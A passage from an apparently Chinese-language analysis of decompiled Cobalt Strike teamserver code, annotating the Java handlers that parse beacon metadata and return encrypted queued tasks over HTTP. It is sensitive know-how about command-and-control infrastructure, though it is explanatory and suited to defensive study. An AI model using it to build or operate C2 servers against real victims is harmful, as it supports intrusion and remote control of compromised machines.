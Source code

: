 ```java
        catch (Exception ex) {
            MudgeSanity.logException("beacon post handler", ex, false);
        }
        return new byte[0];  // 只接受不返回任何数据
    }
}
```

`beacon.BeaconHTTP.GetHandler`

```java
public byte[] serve(final String s, final String s2, final Properties properties, final Properties properties2) {
    // 如果定义了trust_x_forwarded_for并且存在X-Forwarded-For，则从X-Forwarded-For中取得远程地址
    final String remoteAddress = ServerUtils.getRemoteAddress(BeaconHTTP.this.c2profile, properties);
    // 根据C2Profile转换metadata
    final String recover = BeaconHTTP.this.c2profile.recover(".http-get.client.metadata", properties, properties2, BeaconHTTP.this.getPostedData(properties2), s);
    if (recover.length() == 0 || recover.length() != 128) {
        CommonUtils.print_error("Invalid session id");
        MudgeSanity.debugRequest(".http-get.client.metadata", properties, properties2, "", s, remoteAddress);
        return new byte[0];
    }
    
    // parse metadata，然后获取对应的BeaconEntry
    final BeaconEntry process_beacon_metadata = BeaconHTTP.this.controller.process_beacon_metadata(remoteAddress, CommonUtils.toBytes(recover), null, 0);
    if (process_beacon_metadata == null) {
        MudgeSanity.debugRequest(".http-get.client.metadata", properties, properties2, "", s, remoteAddress);
        return new byte[0];
    }
    
    // 获取该beacon队列中的task
    final byte[] dump = BeaconHTTP.this.controller.dump(process_beacon_metadata.getId(), 921600, 1048576);
    if (dump.length > 0) {
        // 对称加密task返回
        return BeaconHTTP.this.controller.getSymmetricCrypto().encrypt(process_beacon_metadata.getId(), dump);
    }
    return new byte[0];
}
```



详细协议分析参考C2Protocol.md